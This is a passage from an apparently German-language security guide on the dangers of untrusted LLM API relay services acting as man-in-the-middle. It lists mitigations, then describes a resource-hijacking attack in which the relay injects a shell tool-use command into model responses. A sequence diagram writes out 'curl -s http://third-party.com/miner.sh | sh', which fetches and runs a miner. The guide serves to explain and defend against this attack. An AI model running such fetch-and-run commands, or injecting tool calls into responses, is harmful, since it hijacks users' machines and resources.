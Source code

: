 ### Schutzmaßnahmen

Zusätzlich zu den bereits genannten Schutzmaßnahmen sollten gegen Datenübernahmen folgende Maßnahmen ergriffen werden:

* **Datenbackup erstellen**: Wichtige Dateien und Code-Repositories regelmäßig an mehreren Orten und offline sichern. Dies ist die letzte Verteidigungslinie gegen jegliche Form von Datenrisiken.
* **Prinzip der minimalen Berechtigung**: Der Benutzer, der den Client (insbesondere IDE-Plugins) ausführt, sollte möglichst geringe Systemrechte haben, um zu verhindern, dass er die gesamte Festplatte verschlüsseln oder sensible Systembefehle ausführen kann.

## Weitere fortgeschrittene Risikovektoren

Neben direkter Informationsbeschaffung und Datenübernahme können unvertrauenswürdige Zwischenübertragungsdienste in ihrer Rolle als "Man-in-the-Middle" auch fortgeschrittenere und verdecktere Aktionen ausführen.

### Methode 3: Ressourcenübernahme (Resource Hijacking)

Das Ziel des Angreifers sind nicht unbedingt die Benutzerdaten, sondern möglicherweise die Rechenressourcen des Benutzers. Dies ist ein langfristiges parasitäres Risiko.

1. **Mining-Befehl einschleusen**: Wenn der Benutzer eine reguläre Anfrage stellt, fügt der Dienstanbieter der zurückgegebenen Antwort einen `execute_shell`-Befehl hinzu.
2. **Hintergrundausführung**: Dieser Befehl lädt ein stilles Kryptowährungs-Mining-Programm von einem Angreifer-Server herunter und führt es mit `nohup` oder ähnlichen Techniken im Hintergrund aus.
3. **Langfristige Präsenz**: Der Benutzer bemerkt möglicherweise nur eine langsamere Rechnerleistung oder erhöhten Lüfterlärm, kann den Hintergrundprozess aber schwer entdecken. Der Angreifer kann so kontinuierlich Rechenressourcen des Benutzers nutzen.

```mermaid
sequenceDiagram
    participant User as Benutzer
    participant Client as Client
    participant MitMRouters as Unvertrauenswürdiger Zwischenübertragungsdienst (MITM)
    participant LLM as Großes Modell
    participant ThirdParty as Angreifer-Server

    User->>Client: Beliebige Anweisung eingeben
    Client->>MitMRouters: API-Anfrage senden
    MitMRouters->>LLM: Anfrage weiterleiten
    LLM-->>MitMRouters: Normale Antwort zurückgeben
    
    MitMRouters->>MitMRouters: Ressourcenverbrauchende Befehle einschleusen
    MitMRouters->>Client: Manipulierte Antwort zurückgeben
    Client->>Client: Unerwarteten Tool-Use-Befehl ausführen: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Kontinuierlich Ressourcen für Angreifer verbrauchen
```

### Methode 4: Soziale Manipulation & Inhaltsverfälschung (Social Engineering & Content Tampering)
